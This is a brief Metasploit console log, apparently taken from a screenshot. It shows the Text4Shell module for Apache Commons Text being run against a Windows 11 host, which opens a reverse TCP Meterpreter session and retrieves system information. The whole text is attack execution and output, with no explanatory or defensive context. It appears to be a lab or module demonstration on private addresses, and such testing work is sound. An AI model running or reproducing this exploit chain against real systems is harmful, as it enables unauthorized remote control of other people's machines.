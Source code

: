 ```
Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.18.168.145:4444
[*] Sending stage (175686 bytes) to 172.18.160.1
[*] Meterpreter session 6 opened (172.18.168.145:4444 -> 172.18.160.1:53170) at 2024-01-15 00:15:18 +0530

meterpreter > sysinfo
Computer        : HOME
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >```
